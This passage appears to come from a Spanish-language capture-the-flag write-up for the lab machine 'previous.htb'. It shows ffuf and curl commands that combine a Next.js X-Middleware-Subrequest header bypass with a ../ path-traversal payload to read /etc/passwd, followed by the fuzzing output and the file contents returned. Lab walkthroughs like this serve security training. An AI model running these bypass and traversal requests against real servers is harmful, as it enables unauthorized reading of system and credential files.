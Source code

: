 ## FFUF

```shell
ffuf -u 'http://previous.htb/api/download?FUZZ=../../../../../../etc/passwd' -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" -w <WORDLIST>
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://previous.htb/api/download?FUZZ=../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

example                 [Status: 200, Size: 787, Words: 1, Lines: 20, Duration: 569ms]
:: Progress: [20469/20469] :: Job [1/1] :: 331 req/sec :: Duration: [0:01:04] :: Errors: 0 ::
```

Veremos que ha funcionado, hay un parametro llamado `example` que puede leer archivos del sistema, un `LFI`, vamos a verlo con un `curl`.

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../../../../../etc/passwd"
```

Info:

```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```